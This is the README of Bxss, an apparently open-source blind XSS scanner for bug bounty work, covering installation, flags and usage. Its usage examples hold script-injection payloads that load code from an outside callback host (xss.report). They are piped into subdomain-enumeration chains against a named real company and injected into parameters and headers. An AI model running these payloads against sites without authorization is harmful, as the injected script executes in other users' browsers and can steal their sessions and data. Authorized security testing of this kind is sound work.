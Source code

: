 <h1 align="center">
  <br>
  <img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/blinded-drib.png" width="200px" alt="Bxss">
  <br>
  Bxss - Blind XSS Scanner
</h1>

<p align="center">
  <a href="https://github.com/ethicalhackingplayground/bxss/releases/latest">
    <img src="https://img.shields.io/github/v/release/ethicalhackingplayground/bxss?style=flat-square" alt="Version">
  </a>
  <a href="https://github.com/ethicalhackingplayground/bxss/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-MIT-yellow.svg?style=flat-square" alt="License">
  </a>
  <a href="https://goreportcard.com/report/github.com/ethicalhackingplayground/bxss">
    <img src="https://goreportcard.com/badge/github.com/ethicalhackingplayground/bxss?style=flat-square" alt="Go Report Card">
  </a>
  <a href="https://pkg.go.dev/github.com/ethicalhackingplayground/bxss">
    <img src="https://pkg.go.dev/badge/github.com/ethicalhackingplayground/bxss.svg" alt="Go Reference">
  </a>
</p>

---

## 🚀 Description
Bxss is a high-performance Blind XSS scanner that automates the detection of blind XSS vulnerabilities in web applications.

---

## ✨ Features
- Injects Blind XSS payloads into custom headers & parameters
- Supports multiple HTTP methods (PUT, POST, GET, OPTIONS)
- High-speed scanning with concurrency support
- Easily chainable with other tools
- Simple installation and usage

---


## 🧠 In Progress

We're actively working on integrating a **Chromium-based worker pool** to enhance the performance of `bxss` on **low-end devices**.

This feature will allow resource-intensive tasks, like DOM-based XSS detection or post-trigger payload inspection, to be offloaded to lightweight Chromium instances managed via a pool. By distributing the workload across multiple headless browser contexts in a controlled and efficient manner, `bxss` will remain responsive and usable even on lower-spec machines.

This will make `bxss` not only powerful but also highly accessible, regardless of system constraints.

---

## ✅ TODOs
- [ ] Chromium-based worker pool for DOM interaction and visual verification
- [ ] Optional HTML/JSON reporting output
- [ ] Add support for multi-platform payload customization (XSS Hunter, Interactsh, etc.)
- [ ] Proxy support
- [ ] Import custom requests

---


## 🧪 Experimental Features
- Trace mode (experimental)

---

## 📦 Installation
```bash
go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest
```

---

## ⚙️ Arguments

| Argument       | Description                                             | Default  |
| ------------- | -------------------------------------------------------- | -------- |
| `-a`          | Append the payload to the parameter                      | `false`  |
| `-c int`      | Set the concurrency level                                | `30`     |
| `-H string`   | Set a custom header                                      | `""`     |
| `-hf string`  | Path to file with headers                                | `""`     |
| `-p string`   | The blind XSS payload                                    | `""`     |
| `-pf string`  | Path to file with payloads                               | `""`     |
| `-t`          | Test parameters for blind XSS                            | `false`  |
| `-X string`   | HTTP method to use                                       | `""`  |
| `-v`          | Enable debug mode                                        | `false`  |
| `-rl float`   | Rate limit (requests per second)                         | `0`      |
| `-f`          | Follow redirects                                         | `false`  |
| `-l`          | Enable Trace Mode (experimental)                          | `false`  |
---

## 🎬 Demonstration
<p align="center">
  <a href="https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm">
    <img src="https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm.svg" alt="Demo">
  </a>
</p>

---

## 📝 What is Trace mode?
Trace mode is an experimental feature that allows you to track where the BlindXSS got triggered, some third party BlindXSS platforms such as [https://xss.report/](https://xss.report/) allows you to specify custom parameters in you're payloads, this allows you to track where the BlindXSS got triggered, for example if you specify the parameter `url=https://somehost.com` in your payload, the tool will use the payload 
```js
'"><script src=https://xss.report/c/username?url=https://somehost.com></script>'
```
for testing and upon a trigger you will be able to inspect the DOM and see what host the BlindXSS got triggered from.

 <img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/xss.report.png" alt="Xss Report">

Make sure when assigning custom parameters in you're dashboard that you assign `url={LINK}` so bxss can automatically replace `{LINK}` with the actual URL. 

## 🔥 Usage Examples

### Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-t
```

### Append To Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -a -p '><script src=https://xss.report/c/username></script>' \
-t
```

### Both Headers & Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \
-t
```

### X-Forwarded-For Header
```bash
subfinder -d uber.com \
| gau \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "X-Forwarded-For"
```

### Custom Headers & Parameters
```bash
echo uber.com \
| haktrails subdomains \
| httpx \
| hakrawler -u \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \
-t
```

### Google Dorks With Dorki
```bash
curl -X GET -H "Authorization: Bearer <Token>" \
-H "X-Secret-Key: <Secret>" \
https://dorki.attaxa.com/api/search?q=site:example.com -s \
| jq -r .[][].url \
| grep "&" \
| bxss -a -p '><script src=https://xss.report/c/username></script>'
```

### Custom Headers & Parameters With Rate Limit
```bash
echo uber.com \
| haktrails subdomains \
| httpx \
| hakrawler -u \
| bxss -a -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \ 
-t \
-rl 10
```

For advanced dorking and vulnerability exploration, check out [Dorki](https://dorki.attaxa.com/) and sign up today!

---

## ☕ Support the Project
If you get a bounty using this tool, consider supporting by buying me a coffee!

<p align="center">
  <a href="https://buymeacoffee.com/zoidsec" target="_blank">
    <img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;">
  </a>
</p>


